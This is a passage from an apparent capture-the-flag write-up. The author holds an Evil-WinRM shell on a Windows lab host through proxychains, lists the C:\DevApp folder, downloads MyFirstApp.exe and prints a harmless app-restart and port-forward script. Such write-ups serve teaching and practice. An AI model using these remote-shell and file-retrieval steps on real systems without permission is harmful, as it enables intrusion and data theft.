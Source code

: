     Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:5985  ...  OK
    *Evil-WinRM* PS C:\Users\development\Documents>



## Shell as root

### Enumeration

I finally have access to `C:\DevApp`:



    *Evil-WinRM* PS C:\devapp> ls

        Directory: C:\devapp

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         9/14/2021   5:02 AM          60026 MyFirstApp.exe
    -a----         9/14/2021  10:57 AM            636 restart.ps1



I'll download the binary:



    *Evil-WinRM* PS C:\devapp> download MyFirstApp.exe
    Info: Downloading C:/devapp/MyFirstApp.exe to ./MyFirstApp.exe

    Info: Download successful!



There's also this `restart.ps1` script here:



    # Restart app every 3 mins to avoid crashes
    while($true) {
      # Delete existing forwards
      cmd /c "netsh interface portproxy delete v4tov4 listenport=9999 listenaddress=0.0.0.0"
      # Spawn app
      $proc = Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ("C:\DevApp\MyFirstApp.exe")
      sleep 2
      # Get random port
      $port = (Get-NetTCPConnection -OwningProcess $proc.ProcessId).LocalPort
      # Forward port to 9999
      cmd /c "netsh interface portproxy add v4tov4 listenport=9999 listenaddress=0.0.0.0 connectport=$port connectaddress=127.0.0.1"
      sleep 180
      # Kill and repeat
      taskkill /f /t /im MyFirstApp.exe
    }
